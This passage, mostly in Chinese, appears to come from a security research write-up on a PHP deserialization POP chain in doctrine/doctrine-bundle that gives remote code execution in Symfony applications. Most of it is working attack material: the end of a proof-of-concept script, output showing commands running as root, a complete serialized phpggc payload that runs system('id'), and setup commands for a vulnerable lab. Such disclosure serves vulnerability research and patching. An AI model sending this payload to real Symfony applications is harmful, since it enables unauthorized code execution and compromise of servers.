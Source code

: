 ```plain
    ');#'
);
$replace_include = 'i:' . 2000 . ';';
echo preg_replace($find_include, $replace_include, $serialized_string2);
}
```

运行它将执行两个 POP 链，并将在系统上执行任意代码。

```plain
$ php unserialize.php 
a:1:{i:0;s:46:"I was TRIGGEREDuid=0(root) gid=0(root) groups=0(root)
";}
Fatal error: Uncaught TypeError: Doctrine\Common\Cache\Psr6\CacheAdapter::commit(): Return value must be of type bool, null returned in /tmp/poc/vendor/doctrine/cache/lib/Doctrine/Common/Cache/Psr6/CacheAdapter.php:235
[...]
```

全链已经在 phpggc 项目上推送，基本上是寻找公开披露的 POP 链时的参考项目。

[https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Doctrine/RCE/1)

使用 phpggc 生成本文中讨论的 POP 链如下：

```plain
$ phpggc Doctrine/rce1 'system("id");'          
a:4:{i:1000;O:39:"Doctrine\Common\Cache\Psr6\CacheAdapter":3:{s:13:"deferredItems";a:1:{i:0;O:41:"Doctrine\Common\Cache\Psr6\TypedCacheItem":2:{s:6:"expiry";i:99999999999999999;s:5:"value";s:4:"test";}}s:6:"loader";i:1;s:5:"cache";O:71:"Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage":5:{s:7:"started";b:1;s:8:"savePath";s:4:"/tmp";s:2:"id";s:3:"aaa";s:4:"data";a:1:{i:0;s:22:"<?php system("id"); ?>";}s:11:"metadataBag";O:60:"Symfony\Component\HttpFoundation\Session\Storage\MetadataBag":1:{s:10:"storageKey";s:1:"a";}}}i:1000;i:1;i:2000;O:39:"Doctrine\Common\Cache\Psr6\CacheAdapter":3:{s:13:"deferredItems";a:1:{i:0;O:41:"Doctrine\Common\Cache\Psr6\TypedCacheItem":2:{s:6:"expiry";i:0;s:5:"value";s:4:"test";}}s:6:"loader";i:1;s:5:"cache";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":1:{s:4:"pool";O:47:"Symfony\Component\Cache\Adapter\PhpArrayAdapter":1:{s:4:"file";s:17:"/tmp/aaa.mocksess";}}}i:2000;i:1;}
```

影响范围是自 1.5.1 版本以来， `doctrine/doctrine-bundle` 包的所有版本都受到影响。

## 如何攻击一个基于 Symfony 的应用程序

### GIF 攻击演示

如果你想设置环境，你需要创建一个 Symfony 应用程序并安装环境。在真实的环境中，只要 Symfony 应用程序使用 doctrine 作为其 ORM，就会安装 `doctrine/doctrine-bundle` 。

对于此 POC 验证，项目环境设置如下，可以通过运行这些命令来复制它。

```plain
$ docker run -it -p 8000:80 php:8.1-apache /bin/bash        
$ apt update && apt install wget git unzip libzip-dev
$ wget https://getcomposer.org/installer -O composer-setup.php
$ php composer-setup.php
$ mv composer.phar /usr/local/bin/composer
$ a2enmod rewrite
$ cd /var/www
$ composer create-project symfony/skeleton:"6.2.*" html
$ composer require symfony/maker-bundle --dev
$ php bin/console make:controller UnserializeController
$ composer require symfony/apache-pack
$ composer require doctrine/orm
$ composer require doctrine/doctrine-bundle
$ cat config/routes.yaml 
controllers:
    resource:
```